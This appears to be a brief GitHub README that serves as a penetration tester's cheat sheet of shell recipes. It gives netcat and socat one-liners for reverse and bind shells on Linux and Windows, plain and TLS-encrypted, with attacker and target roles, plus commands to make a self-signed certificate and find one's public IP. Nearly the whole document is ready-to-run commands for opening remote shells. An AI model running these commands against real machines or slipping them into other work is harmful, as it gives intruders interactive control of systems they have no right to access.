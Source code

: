 # tools

## Reverse Shells
Recipes for reverse shells from A to target B:

### Netcat
A: `nc -nlvp 4444`  
B: `nc -nv $A_IP $PORT -e /bin/bash`

### Socat
#### Unencrypted
A: `socat -d -d TCP4-LISTEN:$PORT STDOUT`  
B (Linux): `socat TCP4:$A_IP:$PORT EXEC:/bin/bash`  
B (Windows): `socat TCP4:$A_IP:4433 EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.

A: `socat -d -d OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork STDOUT`  
B (Linux): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:/bin/bash`  
B (Windows): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:'cmd.exe',pipes`  

## Bind Shells
Recipes for bind shells from A to target B:

### Netcat
A: `nc -nv $B_IP $PORT`
B: `nc -nlvp $PORT -e /bin/bash`  

### Socat
#### Unencrypted
A: `socat - TCP4:$B_IP:$PORT`
B (Linux): `socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash`  
B (Windows): `socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat - OPENSSL:$B_IP:$PORT,verify=0 STDOUT`
B machine (Linux): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:/bin/bash`  
B machine (Windows): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:'cmd.exe',pipes`  

## Self-Signed SSL Certificate
`openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 10 -out cert.crt && cat cert.key cert.crt > cert.pem`

## Get Public IP
To get your public IP address on Linux run `dig +short myip.opendns.com @resolver1.opendns.com`
